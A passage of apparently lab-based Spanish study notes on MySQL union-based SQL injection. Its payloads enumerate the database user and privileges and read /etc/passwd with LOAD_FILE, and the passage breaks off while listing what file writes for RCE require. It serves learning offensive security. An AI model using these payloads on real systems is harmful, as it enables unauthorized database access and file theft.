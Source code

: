 ```sql

cn' UNION SELECT 1, user(), 3, 4-- -

```

```sql

cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -

```

  

Para saber los privilegios del usuario, si es super usuario, usamos la columna super_priv de la tabla mysql.user.

```sql

cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -

```

Y si tenemos muchos usuarios especificamos el que hemos descubierto que es el nuestro.

```sql

cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -

```

Si la Query retorna una Y significa que es Yes a si tenemos privilegios de superusuario.

Para ver todos los privilegios que tiene sería de esta forma:

```sql

cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -

```

Añadiendo un where garantee="'user'@'localhost'" si hay muchos usuarios.

Si contamos con permisos para el comando FILE podemos leer archivos y potencialmente escribir con ellos.

La función para leer archivos sería la siguiente:

```sql

cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -

```

Se puede utilizar para filtrar el código de las páginas web.

  

Para poder escribir en archivos y poder tener el RCE necesitamos tres cosas.

El usuario debe tener el privilegio file activado.
